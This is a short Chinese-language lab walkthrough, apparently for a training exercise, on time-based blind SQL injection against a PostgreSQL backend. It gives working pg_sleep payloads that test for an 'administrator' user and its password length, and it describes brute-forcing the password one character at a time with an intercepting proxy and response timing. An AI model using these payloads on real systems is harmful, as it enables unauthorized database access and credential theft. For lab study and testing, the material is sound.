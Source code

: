 判断是否存在`administrator`用户

```
'|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(3) ELSE pg_sleep(0) END from users)--
```

判断密码长度

```
'|| (SELECT CASE WHEN (username='administrator' and length(password)=20) THEN pg_sleep(3) ELSE pg_sleep(0) END from users)--
```

使用 **Add from list** 下拉列表，添加`[0-9]`，`[a-z]`的payload

进程设置为1， **Response received（已收到响应** ）列。这通常包含一个小数字，表示应用程序响应所花费的毫秒数

![image-20250502174023501](./img/image-20250502174023501.png)

这就代表，第一位是`d`

![image-20250502174222687](./img/image-20250502174222687.png)
